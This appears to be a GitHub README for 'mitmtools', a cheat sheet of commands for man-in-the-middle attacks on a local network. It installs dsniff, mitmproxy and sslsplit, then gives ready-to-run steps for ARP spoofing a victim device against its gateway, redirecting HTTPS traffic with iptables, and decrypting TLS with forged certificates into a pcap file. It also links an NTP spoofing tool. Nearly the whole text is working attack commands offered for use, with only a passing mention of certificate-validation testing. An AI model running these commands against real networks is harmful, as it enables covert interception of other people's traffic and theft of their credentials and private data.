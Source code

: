 # mitmtools

system setup and scripts for various mitm activities

## System Setup

arch linux package installs:
```
pacman -S dsniff mitmproxy sslsplit
```

## ARP Spoofing

ARP Spoofing is a form a mitm attack that causes a device on the same network as the attacker to route traffic to the attacker that was intented for another device.

### Enable IP Forwarding
IP Forwarding is required for an ARP Spoofing attack because we need to forward packets on to their correct MAC address

enable IP Forwarding at runtime (will revert upon reboot):
```
sysctl net.ipv4.ip_forward=1
```

to enable IP Forwarding permanently create the file `/etc/sysctl.d/30-ipforward.conf` with the following content:
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```

### Disable ICMP redirects

disable at runtime:
```
sysctl -w net.ipv4.conf.all.send_redirects=0
```

to disable ICMP redirects permanently create the file `/etc/sysctl.d/31-icmp-redirect.conf` with the following content:
```
net.ipv4.conf.all.send_redirects=0
```

### Perform ARP Spoof

intercept traffic from A intended for B to your local attacker machine on the I interface (unidirectional mitm):
```
arpspoof -i I -t A B
```
e.g. to intercept traffic from a device 192.168.1.100 to the gateway 192.168.1.1 on the eth0 interface:
```
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```
to make the intercept bydirectional, add the `-r` flag:
```
arpspoof -i eth0 -r -t 192.168.1.100 192.168.1.1
```

## mitmproxy

mitmproxy can be used to transparently proxy HTTP data encrypted with TLS. (it will not work with non-HTTP TLS streams!)

### redirect traffic to mitmproxy (running on port 8081) via iptables

redirect traffic to port 443 to mitmproxy running on localhost port 8081
```
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8081
```

### run mitmproxy
```
mitmproxy --mode transparent --showhost -p 8081 -k
```

The first time mitmproxy is run, it generates a CA cert/key pair that are used to sign all forged PKI certificates.

cert location:
```
~/.mitmproxy/mitmproxy-ca-cert.pem
```
This cert needs to be installed and trusted as a CA certificate in whatever web broswer, mobile device, etc that you are trying to attack.
NOTE: also you can not add the cert to a device to test if it is in fact verifying the cert or not.

## sslsplit

sslsplit is used to transparently intercept TLS streams and write the decryped network data to a pcap file. sslsplit has the advantage of working on all TLS payloads, not just HTTP.

### redirect traffic to sslsplit (running on port 8081) via iptables

redirect traffic to port 443 to sslsplit running on localhost port 8081
```
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8081
```

### run sslsplit

generate key and cert:
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365
```

run sslsplit:
```
sslsplit -D -X out.pcap -k key.pem -c cert.pem ssl 127.0.0.1 8081
```

## NTP Spoofing

Delorean is a tool used for spoofing different times over NTP:
https://github.com/PentesterES/Delorean

